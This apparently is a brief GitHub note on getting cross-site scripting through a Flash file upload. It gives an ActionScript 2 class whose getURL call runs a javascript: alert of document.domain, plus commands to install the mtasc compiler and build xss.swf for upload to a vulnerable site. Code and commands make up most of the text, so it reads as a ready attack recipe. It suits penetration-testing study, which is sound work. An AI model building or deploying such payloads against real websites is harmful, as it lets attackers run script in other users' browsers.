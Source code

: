 # SWF-xss-based

###### There are certain cases when .swf files are allowed to upload. In this case, we
###### can craft an ActionScript code to execute JS, compile it, and then upload it on the
###### vulnerable website to achieve XSS capability.


```javascript

	class XSS {
		static var app: XSS;
		function XSS() {
		var xss = "javascript:alert(\"SWF-based XSS: \"+document.domain)";
		getURL(xss, "_self");
		}
		static function main(mc) {
		app = new XSS();
}}

```


To compile this code into a .swf file, we'll use a cross-platform ActionScript2
compiler known as mtasc. It is available at http://www.mtasc.org/mtasc.html

#### install this on .deb based or kali linux
`apt-get install mtasc `


once installed .. 

` $ mtasc -swf xss.swf -main -header 0:0:0 xss.as `

After compilation, we get xss.swf from the original xss.as ActionScript file
